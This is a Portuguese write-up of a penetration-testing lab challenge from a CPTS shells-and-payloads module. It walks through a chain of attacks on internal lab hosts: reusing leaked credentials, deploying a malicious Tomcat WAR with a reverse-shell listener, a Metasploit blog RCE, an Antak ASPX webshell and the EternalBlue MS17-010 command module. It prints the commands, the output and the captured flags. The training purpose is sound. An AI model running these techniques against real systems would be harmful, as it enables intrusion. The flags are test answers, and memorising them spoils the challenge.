# 🏴️ Shells e Payloads - Desafio

> **Dificuldade:** Medium | **SO:** Misto (Windows + Linux) | **Plataforma:** CPTS — Módulo Shells & Payloads

!!! info "Sobre esta página"
    Desafio do módulo **Shells & Payloads** (CPTS). Acesso via RDP a um host de
    salto (foothold) já dentro da rede interna, de onde três alvos são atacados
    em sequência: um servidor Windows com Tomcat, um servidor Linux com um blog
    PHP vulnerável e um segundo servidor Windows explorável via EternalBlue.

!!! note "Sobre os IPs"
    O IP público de acesso RDP ao host de salto mudou entre os blocos de saída
    (`10.129.93.110`, `10.129.204.126`, `10.129.94.4`), provavelmente por reset
    do laboratório durante o estudo. Os IPs **internos** (`172.16.1.x`) se
    mantiveram estáveis durante toda a exploração. Todas as saídas foram
    mantidas exatamente como apareceram no terminal.

---

## 📋 Informações Gerais

| Campo | Valor |
|:------|:------|
| **Host de entrada** | `skills-foothold` (acesso via RDP) |
| **IP (RDP, variável)** | `10.129.93.110` / `10.129.204.126` / `10.129.94.4` |
| **Hosts internos** | `172.16.1.11` (shells-winsvr) · `172.16.1.12` (shells-nixsvr) · `172.16.1.13` (SHELLS-WINBLUE) |
| **SO** | Misto — Windows (foothold, winsvr, winblue) e Linux (nixsvr) |
| **Dificuldade** | Medium |
| **Plataforma / Módulo** | CPTS — Shells & Payloads |
| **Domínio interno** | `inlanefreight.local` |
| **Data** | 07/08/2026 |
| **Status** | 🔄 Em Andamento |

!!! abstract "Objetivo"
    A partir de um host de salto na rede interna, obter acesso e capturar as
    flags dos demais hosts, usando diferentes técnicas de geração e entrega de
    shells/payloads (WAR malicioso, RCE autenticado via Metasploit, webshell
    ASPX e EternalBlue).

---

## 🔍 Enumeração Inicial

### Credenciais encontradas no host de entrada

Logo após o acesso RDP ao `skills-foothold`, um arquivo `access-creds.txt` na
área de trabalho continha credenciais de dois serviços internos:



```text
to manage the blog:
- admin / admin123!@#  ( keep it simple for the new admins )

to manage Tomcat on apache
- tomcat / Tomcatadm

Change the passwords soon..
```

!!! success "Credenciais obtidas (foothold)"
    - **Blog admin:** `admin` / `admin123!@#`
    - **Tomcat manager:** `tomcat` / `Tomcatadm`

### Portas e Serviços Encontrados (172.16.1.13)

```bash
sudo nmap -sV -sC -sS -Pn --disable-arp-ping 172.16.1.13
```

| Porta | Serviço | Versão / Banner |
|:------|:--------|:----------------|
| 80 | http | Microsoft IIS httpd 10.0 |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |




### Descobertas

- [x] `access-creds.txt` no foothold expõe credenciais do **blog** e do **Tomcat**
- [x] IIS em `172.16.1.13` com **TRACE** habilitado (`http-methods`) e indexação de diretório exposta
- [x] `smb-security-mode`: **message signing enabled but not required** — assinatura SMB não obrigatória
- [x] `smb-os-discovery` revela hostname **`SHELLS-WINBLUE`**, Windows Server 2016 Standard 14393 → candidato a MS17-010 (EternalBlue)

---

## 🎯 Técnicas Utilizadas

| # | Técnica | Onde / Como foi aplicada |
|:--|:--------|:-------------------------|
| 1 | Acesso via RDP com credenciais fornecidas | Host de salto `skills-foothold` |
| 2 | Payload WAR malicioso via `msfvenom` + Tomcat Manager | Deploy com `tomcat`/`Tomcatadm` → shell em `shells-winsvr` |
| 3 | Listener `nc` para shell reversa | Recebimento da conexão de `172.16.1.11` |
| 4 | RCE autenticado via Metasploit (`multi/http/fbs_blog_rce`) | Blog PHP em `blog.inlanefreight.local` (172.16.1.12), login `admin`/`admin123!@#` |
| 5 | Enumeração pós-exploração (vhosts, `/`, filesystem) | Meterpreter → shell em `shells-nixsvr` |
| 6 | Upload de webshell ASPX (Antak) via indexador IIS exposto | `172.16.1.13/uploads/antak.aspx` |
| 7 | Exploração EternalBlue (`auxiliary/admin/smb/ms17_010_command`) | `172.16.1.13` (SHELLS-WINBLUE) → execução de comando como SYSTEM |

---

## 🚀 Exploração / Acesso Inicial

### Vetor de Entrada

| Campo | Valor |
|:------|:------|
| **Vetor** | RDP ao host de salto `skills-foothold` |
| **Ferramentas** | FreeRDP, `nc`, `msfvenom`/`msfconsole`, navegador |
| **Acesso obtido como** | `htb-student` (foothold) |

!!! warning "Credenciais de RDP"
    O login RDP no `skills-foothold` foi feito com credenciais fornecidas pelo
    desafio, mas **elas não aparecem no log/print** — apenas o resultado do
    acesso (usuário `htb-student`).

### Etapa 1 — Tomcat (shells-winsvr): WAR malicioso → shell reversa

Com as credenciais `tomcat`/`Tomcatadm`, um payload WAR (`ROOT.war`) foi
preparado e enviado ao Tomcat Manager. Um listener `nc` foi aberto no
foothold e recebeu a conexão de volta:

```bash
nano ROOT.war
nc -lvnp 4444
```

```shell
listening on [any] 4444 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49828
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>hostname
hostname
shells-winsvr

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>whoami
whoami
nt authority\local service
```



!!! success "Acesso — shells-winsvr"
    Shell reversa como `nt authority\local service` em `172.16.1.11`
    (`shells-winsvr`), recebida no listener `172.16.1.5:4444`.

### Etapa 2 — Blog (shells-nixsvr): RCE autenticado via Metasploit

Adicionando `blog.inlanefreight.local` ao `/etc/hosts` (→ `172.16.1.12`) e
logando com `admin`/`admin123!@#`, um post no blog apontava para um exploit
autenticado do Exploit-DB:



> *Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE)
> (Authenticated) (Metasploit)* — exploit-db.com/exploits/50064

```
msf6 exploit(multi/http/fbs_blog_rce) > exploit

[*] Got CSRF token: 34a61ef518
[*] Logging into the blog...
[+] Successfully logged in with admin
[+] Uploading shell...
[+] Shell uploaded as data/i/4EJ0.php
[+] Payload successfully triggered !
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:4444)

meterpreter > shell
whoami
www-data
```



Confirmando o host:

```shell
hostnamectl
  Static hostname: shells-nixsvr
  Operating System: Ubuntu 20.04.3 LTS
  Kernel: Linux 5.4.0-88-generic
  Architecture: x86-64
```



!!! success "Acesso — shells-nixsvr"
    Shell como `www-data` em `172.16.1.12` (`shells-nixsvr`), via RCE
    autenticado no blog PHP.

### Etapa 3 — SHELLS-WINBLUE (172.16.1.13): IIS → webshell Antak

O indexador de diretórios do IIS estava exposto, com `upload.aspx` disponível:



Um webshell ASPX (**Antak**) foi enviado via `upload.aspx`, dando acesso
interativo ao PowerShell:



```
PS> whoami
iis apppool\defaultapppool
```

!!! warning "Tentativa que NÃO progrediu"
    Acesso a `C:\Users\Administrator` a partir da webshell Antak (`iis
    apppool\defaultapppool`) é privilegiado — não foi possível avançar por
    esse caminho diretamente.

### Etapa 4 — SHELLS-WINBLUE: EternalBlue (MS17-010)

O `nmap` já indicava assinatura SMB não obrigatória e o hostname
`SHELLS-WINBLUE`, o que motivou a busca por módulos EternalBlue no
`msfconsole`:

```
msf6 > search eternalblue
```

| # | Módulo | Rank |
|:--|:-------|:-----|
| 0 | `exploit/windows/smb/ms17_010_eternalblue` | average |
| 1 | `exploit/windows/smb/ms17_010_psexec` | normal |
| 2 | `auxiliary/admin/smb/ms17_010_command` | normal |
| 3 | `auxiliary/scanner/smb/smb_ms17_010` | normal |
| 4 | `exploit/windows/smb/smb_doublepulsar_rce` | great |



Usando o módulo `2` (`auxiliary/admin/smb/ms17_010_command`), com `RHOSTS
172.16.1.13` e o comando `type C:\Users\Administrator\Desktop\Skills-flag.txt`:

```
msf6 auxiliary(admin/smb/ms17_010_command) > set RHOSTS 172.16.1.13
msf6 auxiliary(admin/smb/ms17_010_command) > set command type C:\Users\Administrator\Desktop\Skills-flag.txt
msf6 auxiliary(admin/smb/ms17_010_command) > exploit

[*] 172.16.1.13:445 - Target OS: Windows Server 2016 Standard 14393
[*] 172.16.1.13:445 - Built a write-what-where primitive...
[+] 172.16.1.13:445 - Overwrite complete... SYSTEM session obtained!
[+] 172.16.1.13:445 - Command completed successfully!
[*] 172.16.1.13:445 - Output for "type C:\Users\Administrator\Desktop\Skills-flag.txt":

One-H0st-Down!
```



!!! success "Acesso — SHELLS-WINBLUE"
    Execução de comando como **SYSTEM** via `ms17_010_command`
    (write-what-where primitive do MS17-010), sem necessidade de shell
    interativa.

---

## 🐚 Shell e Pós-Acesso

### Enumeração em shells-nixsvr

Com a shell `www-data`, foram enumerados vhosts internos e o filesystem:



```text
admin.inlanefreight.local
app.inlanefreight.local
blog.inlanefreight.local
dev.inlanefreight.local
drupal.inlanefreight.local
```

A flag foi localizada em `customscripts/flag.txt`:

```shell
cd customscripts
ls
flag.txt
cat flag.txt
B1nD_Shells_r_cool
```



### Resumo de acessos obtidos

| Host | IP | Acesso | Método |
|:-----|:---|:-------|:-------|
| `skills-foothold` | `10.129.x.x` (RDP) | `htb-student` | RDP com credenciais fornecidas |
| `shells-winsvr` | `172.16.1.11` | `nt authority\local service` | WAR malicioso no Tomcat |
| `shells-nixsvr` | `172.16.1.12` | `www-data` | RCE autenticado (`fbs_blog_rce`) |
| `SHELLS-WINBLUE` | `172.16.1.13` | `iis apppool\defaultapppool` → **SYSTEM** | Webshell Antak → EternalBlue (`ms17_010_command`) |

---

## 🚩 Flags

- [x] Flag capturada em `shells-nixsvr`
- [x] Flag capturada em `SHELLS-WINBLUE`

| Flag | Local |
|:-----|:------|
| `B1nD_Shells_r_cool` | `customscripts/flag.txt` (shells-nixsvr, 172.16.1.12) |
| `One-H0st-Down!` | `C:\Users\Administrator\Desktop\Skills-flag.txt` (SHELLS-WINBLUE, 172.16.1.13) |

!!! note
    Status marcado como **Em Andamento** no cofre de origem — não há registro
    no log de que todos os hosts/objetivos do desafio tenham sido cobertos.

---

## 📖 Resumo Técnico

| Campo | Valor |
|:------|:------|
| **Causa raiz** | Credenciais em texto puro no foothold (`access-creds.txt`) + serviços vulneráveis não corrigidos (blog RCE, IIS com upload exposto, MS17-010) |
| **Cadeia de ataque** | RDP → `access-creds.txt` → WAR no Tomcat (shells-winsvr) **e** blog RCE via Metasploit (shells-nixsvr) → flag `B1nD_Shells_r_cool` → nmap em 172.16.1.13 → webshell Antak (IIS) → EternalBlue (`ms17_010_command`) → flag `One-H0st-Down!` |
| **Acesso final** | SYSTEM em `SHELLS-WINBLUE` via MS17-010; `www-data` em `shells-nixsvr` |

---

## 💡 Lições Aprendidas

- **O que funcionou:** encadear um arquivo de credenciais exposto no foothold
  para comprometer dois serviços diferentes (Tomcat Manager e blog PHP); usar
  pistas do próprio `nmap` (host chamado "Blue") para direcionar a busca por
  EternalBlue.
- **O que atrasou:** tentar avançar a partir da webshell Antak com o usuário
  de baixo privilégio `iis apppool\defaultapppool` — o caminho certo era usar
  o SMB (MS17-010) para chegar a SYSTEM diretamente.
- **Comandos para revisar depois:** `msfvenom` para gerar payloads WAR;
  módulos `ms17_010_*` do Metasploit e a diferença entre eles (`eternalblue`
  dá shell completa, `command` executa apenas um comando via
  write-what-where).
- **Técnicas para estudar melhor:** sempre revisar arquivos de credenciais
  encontrados logo no acesso inicial — eles frequentemente abrem múltiplos
  vetores em hosts diferentes na mesma rede interna.
